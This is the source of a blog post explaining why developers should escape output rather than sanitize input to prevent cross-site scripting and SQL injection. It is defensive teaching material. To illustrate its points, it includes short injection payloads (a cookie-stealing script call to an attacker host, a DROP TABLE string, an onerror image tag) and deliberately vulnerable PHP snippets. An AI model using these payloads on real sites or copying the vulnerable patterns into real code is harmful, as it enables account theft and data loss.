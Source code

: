 ```yaml
---
layout: default
title: Don’t try to sanitize input. Escape output.
permalink: /writings/dont-sanitize-do-escape/
description: Why you should escape output correctly, but generally not sanitize user input.
---
```

<h1><a href="{{ page.permalink }}">{{ page.title }}</a></h1>
<p class="subtitle">February 2020</p>


Every so often developers talk about "sanitizing user input" to prevent cross-site scripting attacks. This is well-intentioned, but leads to a false sense of security, and sometimes mangles perfectly good input.


## How does cross-site scripting happen?

A website is vulnerable to cross-site scripting (XSS) attacks if users can enter information that the site repeats back to them verbatim in a page's HTML. This might cause minor issues (HTML that breaks the page layout) or major ones (JavaScript that sends the user's login cookie to an attacker's site).

Let's walk through a concrete example:

1. NaiveSite allows you to enter your name, which is output as is on your profile page.
2. Billy the Kid enters his name as `Billy <script>alert('Hello Bob!')</script>`.
3. Anyone who visits Billy's profile page gets some HTML including the unescaped `script` tag, which their browser runs.
4. If the `alert()` were changed to something more malicious, like `sendCookies('https://billy.com/cookie-monster')`, Billy may now be collecting the unsuspecting visitor's login information.

Side note: it isn't quite this simple, as login cookies are usually marked `HttpOnly`, which means they're not accessible to JavaScript. But this is NaiveSite, so it's likely they made both an XSS mistake and a cookie one.


## Why input filtering isn't a great idea

The developer has heard of "input filtering" or "sanitizing input", so they write some code to strip out unsafe HTML characters `<>&` from the name before storing it. Problem solved!

But there are two problems with this. For one, a couple might sign up to NaiveSite as <code>Bob&nbsp;&amp;&nbsp;Jane&nbsp;Smith</code>, but the filtering code strips the `&`, and suddenly Bob is on his own, with a middle name of Jane.

Or if the filter is a bit more zealous and also strips `'` and `"`, someone like Bill O'Brien becomes Bill OBrien. Messing up [people's names](https://www.kalzumeus.com/2010/06/17/falsehoods-programmers-believe-about-names/) is not a good look.

Perhaps more importantly, it gives a false sense of security. What does "unsafe" mean? In what context? Sure, `<>&` are unsafe characters for HTML, but what about CSS, JSON, SQL, or even shell scripts? Those have a completely different set of unsafe characters.

For example, NaiveSite might have a PHP template that looks like this:

```html
<html>
...
<script>
var name = "<?=$name?>";
</script>
```

If an attacker sets their name to include double quotes, like `"; badFunc(); "`, they can run arbitrary JavaScript on any NaiveSite pages that display the user's name (which, if you're logged in, is probably all of them).

Another example of this kind of thing is SQL injection, an attack that's closely related to cross-site scripting. NaiveSite is powered by MySQL, and it finds users like so:

```php
$query = "SELECT * FROM users WHERE name = '{$name}'"
```

When a boy named [`Robert'); DROP TABLE users;`](https://xkcd.com/327/) comes along, NaiveSite's entire user database is deleted. Oops!

Incidentally, the mother in the xkcd comic says, "I hope you've learned to sanitize your database inputs." Which is somewhat confusing, but I'll give Randall the benefit of the doubt and assume he meant "escape your database parameters".

In short, it's no good to strip out "dangerous characters", because some characters are dangerous in some contexts and perfectly safe in others.


## Escape your output instead

The only code that knows what characters are dangerous is the code that's outputting in a given context.

So the better approach is to store whatever name the user enters verbatim, and then have the template system HTML-escape when outputting HTML, or properly escape JSON when outputting JSON and JavaScript.

And of course use your SQL engine's parameterized query features so it properly escapes variables when building SQL:

```php
$stmt = $db->prepare('SELECT * FROM users WHERE name = ?');
$stmt->bind_param('s', $name);
```

This is sometimes called “contextual escaping”. If you happen to use Go's [`html/template`](https://golang.org/pkg/html/template/) package, you get automatic contextual escaping for HTML, CSS, and JavaScript. Most other templating systems at least give you automatic HTML escaping, for example React, Jinja2, and Rails templates.


## But what if you *want* raw input?

One tricky situation is when your app's purpose is allowing a user to enter HTML or Markdown for display. In this case you can't escape when rendering output, because the whole purpose is to allow users to add links, images, headings, etc.

So you have to take a different approach. If you're using Markdown, you can either:

1. Allow them to only enter pure Markdown, and convert that to HTML on render (many Markdown libraries allow raw HTML by default; be sure to disable that). This is the most secure option, but also more restrictive.
2. Allow them to use HTML in the Markdown, but only a whitelist of allowed tags and attributes, such as `<a href="...">` and `<img src="...">`. Both [Stack Exchange](https://meta.stackexchange.com/a/135909/160696) and [GitHub](https://github.github.com/gfm/#disallowed-raw-html-extension-) take this second approach.

If you're not using Markdown but want to let your users enter HTML directly, you only have the second option -- you must filter using a whitelist. This is harder to get right than you'd think (for example, `<img src="x" onerror="badFunc()">`), so be sure to use a mature, security-vetted library like [DOMPurify](https://github.com/cure53/DOMPurify).

So in cases where you do need to "echo" raw user input, carefully filter input based on a restrictive whitelist, and store the result in the database. When you come to output it, output it as stored without escaping.

The parallel for SQL injection might be if you're building a data charting tool that allows users to enter arbitrary SQL queries. You might want to allow them to enter `SELECT` queries but not data-modification queries. In these cases you're best off using a proper SQL parser ([like this one](https://github.com/xwb1989/sqlparser)) to ensure it's a well-formed `SELECT` query -- but doing this correctly is not trivial, so be sure to get security review.


## What about validation?

Input sanitization is usually a bad idea, but input *validation* is a good thing.

For example, when you're parsing form fields, and you have a number field that's not a number, or an email address without an `@`, or a "post status" drop-down that can only be one of `draft`, `published`, or `archived` -- then by all means validate it and return an error if it's invalid.

Good web form validation shows errors inline so the user knows exactly what to fix:

![Web form validation](/images/form-validation.png)

You must do validation at least on the backend, otherwise an attacker could bypass the frontend validation and `POST` bogus data to your endpoint directly. In addition, you can also validate early on the frontend to show errors more real-time, without a round trip to the server.


## Further reading

OWASP has two cheat sheets on [Cross Site Scripting Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet) and [SQL Injection Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) that contain a lot of further information on escaping.

There's also a StackOverflow [answer to "How can I sanitize user input with PHP?"](https://stackoverflow.com/questions/129677/how-can-i-sanitize-user-input-with-php/130323#130323) that is somewhat PHP-specific, but I found it succinct and helpful. It links to a page on PHP [magic quotes](https://www.php.net/manual/en/security.magicquotes.php), which were a bad idea and actually removed in PHP 5.4 -- the discussion there is very much in line with what I've written above.

If you have any feedback on this article, please get in touch! Or see the comments on [Hacker News](https://news.ycombinator.com/item?id=22431022) and [programming reddit](https://www.reddit.com/r/programming/comments/fa7rn8/dont_try_to_sanitize_input_escape_output/).
